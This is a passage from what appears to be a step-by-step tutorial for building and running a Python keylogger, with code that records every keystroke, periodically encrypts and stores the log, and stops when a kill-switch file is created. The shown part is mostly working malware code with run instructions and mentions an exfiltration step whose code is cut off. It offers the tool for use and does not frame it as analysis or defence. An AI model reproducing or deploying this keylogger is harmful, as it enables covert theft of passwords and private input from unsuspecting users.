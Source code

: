 ```python
    except Exception as e:
        print(f"[-] Exfiltration error: {e}")

def check_kill_switch():
    return os.path.exists("kill.flag")

def flush_log():
    global log
    if log:
        encrypt_and_store(log)
        log = []

def periodic_flush():
    while True:
        time.sleep(30)
        if check_kill_switch():
            flush_log()
            print("[*] Kill switch detected. Exiting.")
            exit()
        flush_log()

def on_press(key):
    try:
        log.append(str(key.char))
    except AttributeError:
        log.append(f"[{key}]")

def main():
    ensure_log_dir()
    print("[*] Logger started. Listening for keystrokes...")
    threading.Thread(target=periodic_flush, daemon=True).start()
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()

if __name__ == "__main__":
    main()
```

Run the logger:

```bash
python logger.py
```

Now type on your keyboard to generate logs. The logs will be flushed every 30 seconds.

---

### 🚫 Step 4: Kill Switch (Optional)

To stop the logger gracefully:

```bash
echo > kill.flag
```
